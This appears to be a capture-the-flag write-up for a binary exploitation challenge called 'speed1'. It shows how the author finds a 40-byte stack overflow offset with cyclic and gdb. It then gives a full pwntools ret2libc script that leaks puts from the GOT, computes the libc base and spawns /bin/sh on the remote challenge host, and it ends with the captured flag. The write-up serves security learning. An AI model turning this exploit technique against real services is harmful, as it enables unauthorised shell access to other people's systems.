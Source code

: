 ```
$ checksec ./speed1
[*] '~/speed1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```
$ cyclic -n 8 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```
$ gdb ./speed1
entry
break fgets
c
```

[return address is 0x6161616161616166](speed-return-address.png)

```
$ cyclic -n 8 -l 0x6161616161616166
40
```


[main address was 0x4010d0](main-address.png)


Using pwndbg to see the GOT entries:

[puts is in got](got-functions.png)


```python
#!/usr/bin/env python3

import os
from pwn import *
import pwnlib.elf

context.log_level = 'debug'
c = remote('speed-01.hfsc.tf',61000)
#c = process('./speed1')
# break: 0x40124d
# c = gdb.debug(['./speed1'], gdbscript='''
#         b *0x40124d
#         c
# ''')
libc = ELF('libc.so.6')
e = ELF('./speed1')

context.binary = e
context.os = 'linux'
context.arch = 'amd64'
rop = ROP(e)

c.recvuntil('b0fz:')

# padding for buffer overflow
rop.raw("A" * 40)
rop.puts(e.got['puts'])
rop.call(0x4010d0) # address of main/entrypoint
print(rop.dump())

info("Stage 1, leaking puts@libc address")
c.sendline(rop.chain())
leakedPuts = c.recvline()[:8].strip()

leakedPuts = int.from_bytes(leakedPuts, byteorder='little')
success(f'Leaked puts: {leakedPuts:x}')
libc.address = leakedPuts - libc.symbols['puts']
info(f"Libc Address: {libc.address:x}")

info("Stage 2, ret2shell")
c.recvuntil('b0fz:')
rop2 = ROP(libc)
rop2.call(rop.find_gadget(['ret']))
rop2.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])

padding = (b"A"*40)
payload = b"".join([padding, rop2.chain()])
c.sendline(payload)
c.interactive()
```


[the flag was midnight{b3ee4fd1e8b331a237b234395d1ad0a0}](got-flag.png)
